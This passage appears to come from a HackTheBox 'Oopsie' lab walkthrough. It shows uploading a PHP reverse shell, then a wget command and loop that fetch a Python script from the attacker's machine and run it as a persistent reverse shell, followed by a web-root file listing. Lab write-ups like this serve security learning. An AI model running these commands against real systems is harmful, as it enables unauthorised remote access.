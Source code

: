 Firing up burp and navigating to the 'uploads' with these cookies shows us a new
page:

{{< vs 3 >}}

{{< img src="/images/posts/security/htb-oopsie/upload-page.png" width="900" align="center">}}

{{< vs 3 >}}

Here, we can now upload our reverse php shell and execute it by navigating to
`http://10.10.10.28/uploads/r.php`. Make sure the listener is up before you
navigate to the page or you'll have to re-do the process.

Now that we have a shell, a quick `whoami` will show that we are running as www-data.
After a little poking around, I can't find a writeable directory aside from /tmp, so
I'll have to use that as my working directory to upgrade this shell to something a
little more usable. I fire up a python server listening to 9002 on my laptop to
get the shell onto the machine, then subsequently start my nc listener to listen
on 9002. The while loop allows us to reconnect at any time by firing up a nc
listener on 9002, provided we still have the same IP address.

```
cd /tmp; wget http://10.10.14.48:9002/r3.py
while :; do /usr/bin/python3 ./r3.py -t 10.10.14.48 -p 9002; done &
```

{{< vs 1 >}}

Looking through the website's files, we see that there are a few new php files
to look at.

```
$ find /var/www/html
/var/www/html
/var/www/html/index.php
/var/www/html/images
/var/www/html/images/1.jpg
/var/www/html/images/3.jpg
/var/www/html/images/2.jpg
/var/www/html/js
/var/www/html/js/jquery.min.js
/var/www/html/js/bootstrap.min.js
/var/www/html/js/min.js
/var/www/html/js/prefixfree.min.js
/var/www/html/js/index.js
/var/www/html/themes
/var/www/html/themes/theme.css
/var/www/html/uploads
/var/www/html/css
/var/www/html/css/1.css
/var/www/html/css/ionicons.min.css
/var/www/html/css/reset.min.css
/var/www/html/css/bootstrap.min.css
/var/www/html/css/font-awesome.min.css
/var/www/html/css/normalize.min.css
/var/www/html/css/new.css
/var/www/html/cdn-cgi
/var/www/html/cdn-cgi/login
/var/www/html/cdn-cgi/login/index.php
/var/www/html/cdn-cgi/login/admin.php
/var/www/html/cdn-cgi/login/script.js
/var/www/html/cdn-cgi/login/db.php
/var/www/html/fonts
/var/www/html/fonts/fontawesome-webfont.ttf
```
